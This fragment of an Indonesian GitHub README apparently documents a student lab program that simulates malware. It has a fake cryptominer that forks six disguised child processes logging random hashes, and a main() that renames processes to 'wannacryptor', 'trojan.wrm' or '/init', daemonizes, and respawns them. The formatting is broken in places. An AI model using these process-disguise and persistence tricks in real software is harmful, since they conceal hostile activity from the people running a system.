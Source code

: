   ``` while (keep_running) {
    }
    hash[64] = '\0';
Membuat string hash acak 64 karakter berupa hex.
- ```sh
  time_t now = time(NULL);
    struct tm *t = localtime(&now);

    fprintf(log, "[%04d-%02d-%02d %02d:%02d:%02d][Miner %02d] %s\n",
            t->tm_year + 1900, t->tm_mon + 1, t->tm_mday,
            t->tm_hour, t->tm_min, t->tm_sec,
            id, hash);
    fflush(log);
  ```
  Tulis hash + timestamp + ID ke file log, format: [2025-04-17 22:01:54][Miner 01] 8b2f9c...
- `sleep((rand() % 28) + 3);` Tidur acak antara 3–30 detik.
- `for (int miner_id = 0; miner_id < 6; miner_id++) {
    pid_t pid = fork();
    if (pid == 0) {` Loop buat 6 proses anak.
- `snprintf(name, sizeof(name), "mine-crafter-%02d", miner_id);` Buat nama proses palsu seperti mine-crafter-00, mine-crafter-01....
- `int status;
while (wait(&status) > 0);` Tunggu semua child mati (blocking).
![Screenshot 2025-04-18 110256](https://github.com/user-attachments/assets/760fc55c-83fc-4d0d-8a3d-d931944bb9a2)
![Screenshot 2025-04-18 110626](https://github.com/user-attachments/assets/b44a9738-8e77-479d-9d63-488e98dd333c)

```sh
int main(int argc, char *argv[]) {
    char cwd[1024];
    getcwd(cwd, sizeof(cwd));

    if (argc >= 2 && strcmp(argv[1], " ") == 0) {
      prctl(PR_SET_NAME, (unsigned long) argv[0], 0, 0, 0);
      cryptominer(argv[0][strlen(argv[0]) - 1] - '0');           
    }

    if (argc > 0 && strcmp(argv[0], "rodok.exe") == 0) {
        prctl(PR_SET_NAME, (unsigned long)"rodok.exe", 0, 0, 0);
            rodok_launcher();
        return 0;
    }

    if (argc > 0 && strcmp(argv[0], "wannacryptor") == 0) {
        prctl(PR_SET_NAME, (unsigned long)"wannacryptor", 0, 0, 0);
            wannacryptor();
        return 0;
    }
    
    if (argc > 0 && strcmp(argv[0], "trojan.wrm") == 0) {
        prctl(PR_SET_NAME, (unsigned long)"trojan.wrm", 0, 0, 0);
            trojan_wrm();
        return 0;
    }
    
    if (argc > 0 && strcmp(argv[0], "init") == 0) {
        daemonize();
        chdir(cwd);
        prctl(PR_SET_NAME, (unsigned long) "/init", 0, 0, 0);

        while (1) {
            pid_t pid = fork();
            if (pid == 0) {
                char *args[] = {"wannacryptor", NULL};
```